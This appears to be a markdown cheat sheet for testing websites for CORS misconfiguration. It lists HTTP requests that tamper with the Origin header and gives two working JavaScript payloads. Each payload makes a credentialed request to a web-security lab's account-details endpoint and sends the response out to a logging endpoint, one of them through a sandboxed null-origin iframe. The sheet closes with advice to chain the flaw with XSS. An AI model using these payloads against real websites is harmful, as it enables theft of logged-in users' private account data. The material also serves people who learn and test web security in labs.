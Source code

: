 ### Testing for CORS vulnerability
1. Change Origin Header to arbitrary domain.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: http://example.com to Origin: https://malicious.com
```
If it response with this, that means the website is vulnerable to CORS.
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious.com
Access-Control-Allow-Credentials: true
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
2. Change Origin Header to null.
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```
**Demo Payload For Basic Case**
```javascript
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://ac371f531f693ef3c07b84de00630017.web-security-academy.net'

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('http://127.0.0.1:5555/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```
3. Change the origin header to one that begins with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicious.com
```
4. Change the origin header to one that ends with the origin of the site.
```
GET / HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious.vulnerable-website.com
```
Note: If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application. So, if you find a CORS vulnerability, try to bind it with XSS attack.

```
